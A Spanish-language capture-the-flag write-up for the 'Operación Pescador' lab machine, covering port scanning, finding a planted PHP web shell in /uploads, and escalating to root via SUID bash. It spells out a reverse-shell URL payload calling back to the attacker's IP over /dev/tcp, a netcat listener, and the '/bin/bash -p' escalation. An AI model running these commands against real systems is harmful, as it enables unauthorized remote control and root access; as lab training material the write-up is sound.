# 🖥️ Write-Up: [OPERACIÓN PESCADOR](https://labs.thehackerslabs.com/machine/149)

## 📌 Información General
    - Nombre de la máquina: Operación Pescador
    - Plataforma: The Hackers Labs
    - Dificultad: Avanzado
    - Creador: Oscar
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

Nuestra ip es la **10.0.5.5** 

La máquina Operación Pescador tiene la ip **10.0.5.16**

### Descubrimiento de Puertos

Comenzamos enumerando todos los puertos abiertos de la máquina usando la herramienta **nmap**.



La máquina tiene abiertos los puertos 22 y 80. Con **nmap** vamos a ver que servicios y versiones se están ejecutando en estos puertos.



Como no disponemos de credenciales para conectarnos por el servicio ssh del puerto 22 y la versión que ejecuta no es vulnerable, vamos a analizar el puerto 80.

### Puerto 80

Vemos que se aplica **Virtual Hosting**, por lo tanto tenemos que añadir la ip **10.0.5.16** y el dominio **mail.innovasolutions.thl** al archivo **/etc/hosts**



Ahora accedemos a ese dominio con nuestro navegador y vemos un panel de login.



Vamos a enumerar subdirectorios de la web utilizando la herramienta **gobuster**.



Observamos un subdirectorio **/uploads** que nos aplica una redirección a **http://mail.innovasolutions.thl/uploads/** y cuyo tamaño no es 0. Si accedemos a él con el navegador vemos un archivo **foto.png.php**



## 🔥 Explotación

Accedemos al archivo y nos carga contenido que parece ser de una imagen, pero al tratarse de un archivo con extensión **php** podemos probar a buscar algún parámetro por el método **GET** que pueda ejecutar código. Para ello, vamos a utilizar la herramienta **wfuzz**



Encontramos el parámetro **cmd**, vamos a probarlo a ver si funciona correctamente con el comando **whoami**



Efectivamente, nos devuelve al usuario **www-data**, por lo tanto podemos enviarnos una **reverse shell** a nuestra máquina.

Nos ponemos en escucha en nuestra máquina con **netcat**.

```bash
nc -nlvp 443
```

Y en el navegador accedemos a `http://mail.innovasolutions.thl/uploads/foto.png.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.0.5.5/443 0>%261'`

Y obtenemos la shell. Ahora procedemos a realizar el tratamiento de la **TTY**





Somos el usuario **www-data**

## 🧗 Escalada de Privilegios

### Root

Buscamos archivos con permisos **SUID**.



La **bash** tiene permisos **SUID**, por lo tanto nos lanzamos una bash privilegiada con `/bin/bash -p` y ya somos **root**.

